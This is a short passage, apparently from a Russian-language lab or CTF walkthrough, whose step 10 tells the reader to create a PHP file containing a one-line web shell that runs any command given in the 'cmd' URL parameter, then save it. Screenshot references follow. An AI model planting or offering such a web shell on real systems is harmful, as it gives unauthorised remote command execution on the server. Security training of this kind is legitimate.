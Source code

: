 ## 10. Создайте новый файл php и напишите простую веб-оболочку PHP.

```php
<?php system($_GET["cmd"]); ?>
```

![plot](./screens/6.png)

И позже нажмите «Сохранить и закрыть».

![plot](./screens/7.png)

